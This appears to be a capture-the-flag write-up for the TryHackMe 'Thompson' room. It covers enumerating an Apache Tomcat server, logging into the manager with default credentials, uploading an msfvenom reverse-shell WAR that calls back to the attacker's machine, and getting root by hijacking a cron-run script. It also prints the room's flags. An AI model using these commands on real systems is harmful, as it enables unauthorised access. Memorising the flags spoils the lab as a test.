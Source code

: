 ## Thompson - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtthompson)

**IP: 10.10.37.157**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster, msfvenom

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan.
  ```
  nmap -sC -sV -T5 -p- 10.10.37.157 
  22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
  8080/tcp open  http    Apache Tomcat 8.5.5
  ```
  
- Visited `http://10.10.37.157:8080` and it's Apache Tomcat page, put it in Gobuster.
  ```
  gobuster dir -u http://10.10.37.157:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ->
  /docs                 (Status: 302) [Size: 0] [--> /docs/]
  /examples             (Status: 302) [Size: 0] [--> /examples/]
  /manager              (Status: 302) [Size: 0] [--> /manager/]
  ```
  
- Then, I visited `http://10.10.37.157:8080/manager` and got this error:
  ```
  You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

  For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.
  
  <role rolename="manager-gui"/>
  <user username="tomcat" password="s3cret" roles="manager-gui"/>
  ```

- Awesome, I have credentials now, let's log in to manager GUI with them. After going through manager GUI, I found an option to upload `.war` files. Awesome, upload a shell!

---

## ⚙️ Shell Access

- Created a shell with `msfvenom`, started a listener and then visited the page `http://10.10.37.157:8080/shell/` in order to get interractive shell. I used Java shell here but you can use any shell.
  ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR-THM-IP] LPORT=4444 -f war -o shell.war
  nc -lvnp 4444

  upload the shell through manager GUI and visit the page
  ```
  
- Perfect, I got a shell, let's convert it to `putty`
  ```
  python -c "import pty; pty.spawn('/bin/bash')"
  ```
  
- I also experimented with GhostCat exploit but it was unsuccessfull, app is vulnerable to LFI but couldn't make it work tho...

---

## 🧍 User Privilege Escalation

- Now, since I got a shell, finding user flag is not a problem
  ```
  find / -name user.txt
  /home/jack/user.txt
  
  cat /home/jack/user.txt
  39400c90bc683a41a8935e4719f181bf
  ```
  
- Perfect, moving to escalation.

---

## 👑 Root Privilege Escalation

- After enumerating, I decided to go with `cronjobs` since it was my best option. Due to configuration, `cronjobs` prints content of `test.txt` every minute
  ```
  cat /etc/crontab
  cd /home/jack && bash id.sh
  
  cd /home/jack
  cat test.txt
  uid=0(root) gid=0(root) groups=0(root)
  
  cat id.sh 
  #!/bin/bash
  id > test.txt
  ```
  
- OK, now change `id.sh` to print `root.txt` instead of ID.
  ```
  echo '#!/bin/bash' > id.sh
  echo 'cat /root/root.txt > test.txt' >> id.sh 
  ```
  
- It worked, you still have to wait a bit for `cronjobs` to resolve before getting the flag.
  ```
  cat test.txt
  d89d5391984c0450a95497153ae7ca3a
  ```

---

## 🏁 Flags

- **User Flag**: `39400c90bc683a41a8935e4719f181bf`
- **Root Flag**: `d89d5391984c0450a95497153ae7ca3a`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Exploiting with GhostCat which I didn't use to get the flags...`

- What did I learn?
  `Persistence is the key!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
